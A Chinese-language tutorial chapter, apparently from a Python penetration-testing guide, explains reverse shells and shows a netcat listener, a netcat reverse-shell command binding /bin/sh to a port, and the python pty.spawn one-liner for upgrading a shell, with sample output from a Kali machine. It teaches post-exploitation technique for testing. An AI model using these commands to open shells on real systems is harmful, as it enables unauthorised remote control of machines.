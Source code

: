 # 伪终端

## 伪终端

这一章,我们来讲讲如何使用 python 做一个伪终端.不过在这之前你需要先了解一点伪终端的意思,还有一些技巧.这个我们会在下面讲到:

伪终端其实就是命令终端(cmd.exe,/bin/sh)通过网络接口反弹给攻击者,或者是新建一个监听端口反弹一个终端给攻击者,值得注意的就是原终端对于标准的输入,输出是不做处理的(stdin/stdout/stderr),同样的反弹的 shell 也是不对它做处理的.(ssh 访问都是直接从键盘上读取).

这意味着有一些特殊的命令能够帮助你反弹 shell,像我们最常见的就是使用 netcat 命令来反弹 shell:

```
#启动 netcat 监听器
~$ nc -lvp 443
listening on [any] 443 ...

# 使用 netcat 反弹'/bin/sh'
~$ nc 127.0.0.1 443 -e /bin/sh 
```

现在你可能注意到你看不到一些命令提示,我们输入几个命令试试:

```
id
uid=1000(kali) gid=1000(kali) groups=1000(kali)

uname -a
Linux kali 3.12-kali1-amd64 #1 SMP Debian 3.12.6-2kali1 (2014-01-06) x86_64 GNU/Linux

ls
bin
boot
dev
etc
home
initrd.img
lib
lib64
media
mnt
opt
proc
root
run
sbin
selinux
srv
sys
tmp
usr
var 
```

上面这些命令运行会很正常,但是当你运行一些需要用户再次输入验证或者是编辑的命令就可能会出现问题, 例如(FTP,SSH,vi 等),因为我们虚拟的终端它只有标准的输入输出功能,不会再次返回验证输入. 但是对于写文件我们可以使用 echo 命令来写入内容,这个对于现实是一点儿也不违和的.

在使用的过程中你也可能已经注意到了,它并有任何的提示性消息给您.这是因为命令的的提示消息是同过 STDERR 函数来传递的, 而在前面我们也讨论过我们实现的并不是一个原生终端,如果你想执行一些二进制的执行文件,譬如是 meterpeter 的执行文件就可能会出现错误.

对于已经安装了 python 的系统,我们可以使用 python 提供的 pty 模块,只需要一行脚本就可以创建一个原生的终端.下面是演示代码.执行第一行前 我还没有进入终端.

```
python -c "import pty;pty.spawn('/bin/bash')"

kali@kali:/$ uname -a
uname -a
Linux kali 3.12-kali1-amd64 #1 SMP Debian 3.12.6-2kali1 (2014-01-06) x86_64 GNU/Linux

kali@kali:/$ id
id
uid=1000(kali) gid=1000(kali) groups=1000(kali)

kali@kali:/$ ls
ls
bin    dev         home   lib64  opt      srv  usr
boot   initrd.img  media  proc   sbin     sys  var
etc    lib         mnt    root   selinux  tmp
kali@kali:/$ 
```

-c 参数选项允许我们直接在命令终端里面执行指定脚本,上面那段脚本,我使用分号把两行代码合并为了一行.这样写并不为过.还有一点. 就是双引号里面只能使用单引号把/bin/bash 引起来,如果使用双引号就出出现语法错误.就像下面这样:

```
python -c "import pty;pty.spawn("/bin/bash")" 
```

虽然到目前为止写的虚拟终端并没有原生终端那样好,但是花点时间去折腾然后不断的去完善.相信会做的更好. 大家可能在渗透测试的时候会发现有些时候系统的命令终端是不允许直接访问的,那么这个时候用 Python 虚拟化一个终端相信会让你眼前一亮.